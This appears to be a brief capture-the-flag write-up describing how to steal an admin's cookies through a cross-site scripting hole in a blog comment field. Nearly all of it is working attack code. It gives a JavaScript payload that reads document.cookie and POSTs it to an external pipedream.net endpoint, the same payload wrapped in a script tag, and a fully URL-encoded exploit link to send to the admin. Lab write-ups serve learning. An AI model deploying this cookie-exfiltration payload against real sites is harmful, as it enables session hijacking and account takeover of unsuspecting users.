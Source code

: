 0) Create an endpoint on requestBean
1) create a script that posts cookies to your requestBean
```js
const headers = new Headers();
headers.append("Content-Type", "application/json");

const body = {
  'cookies': document.cookie
};
 
const options = {
  method: "POST",
  headers,
  body: JSON.stringify(body)
};
fetch("https://eo1xxlwzc2rmdlj.m.pipedream.net", options);

```
3) Add semicolons to the end of every line. Envelop it with a `<script>` tag. 
```js
<script>
const headers = new Headers();
headers.append("Content-Type", "application/json");

const body = {
  'cookies': document.cookie
};
 
const options = {
  method: "POST",
  headers,
  body: JSON.stringify(body)
};
fetch("https://eo1xxlwzc2rmdlj.m.pipedream.net", options);
</script>
```
4) insert the script in the unsanitized input. 
5) Send the with an href to the new unsanitized comment to adm
```
http://travelers.ganeshicmc.com:2337/blog/diario-viajante-ep7/?nome=a&comentario=%3Cscript%3E+const+headers+%3D+new+Headers%28%29%3B+headers.append%28%22Content-Type%22%2C+%22application%2Fjson%22%29%3B++const+body+%3D+%7B+++%27cookies%27%3A+document.cookie+%7D%3B+++const+options+%3D+%7B+++method%3A+%22POST%22%2C+++headers%2C+++body%3A+JSON.stringify%28body%29+%7D%3B+fetch%28%22https%3A%2F%2Feo1xxlwzc2rmdlj.m.pipedream.net%22%2C+options%29%3B+%3C%2Fscript%3E
```
